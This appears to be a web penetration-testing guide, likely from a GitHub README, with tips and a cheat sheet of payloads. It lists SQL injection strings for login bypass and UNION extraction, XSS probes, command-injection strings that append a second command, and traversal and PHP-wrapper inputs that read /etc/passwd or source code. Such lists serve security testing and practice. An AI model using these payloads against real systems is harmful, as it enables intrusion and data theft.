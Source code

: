 ### SQL Injection Tips

- **Test basic payloads**: `' OR 1=1--`, `" OR 1=1--`
- **Look for error messages** that reveal database information
- **Use UNION attacks** to extract data from other tables
- **Try blind techniques** when no output is displayed

### File Inclusion Tips

- **Test with common files**: `/etc/passwd` (Linux), `C:\Windows\win.ini` (Windows)
- **Use PHP wrappers** for LFI: `php://filter/convert.base64-encode/resource=index.php`
- **Try null bytes** to bypass extensions: `file.php%00.jpg` (in older PHP versions)

### Authentication Tips

- **Check for default credentials**
- **Try username enumeration** based on error messages
- **Test password reset functionality** for vulnerabilities
- **Look for insecure session management**

## Common Payloads Cheat Sheet

### XSS Payloads
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
"><script>alert(1)</script>
javascript:alert(1)
```

### SQL Injection Payloads
```
' OR 1=1--
" OR 1=1--
' UNION SELECT 1,2,3--
' UNION SELECT table_name,2,3 FROM information_schema.tables--
admin'--
```

### Command Injection Payloads
```
; ls
& whoami
| cat /etc/passwd
`id`
$(id)
```

### Directory Traversal Payloads
```
../../../etc/passwd
..\..\..\..\Windows\win.ini
/var/www/html/index.php
file:///etc/passwd
```

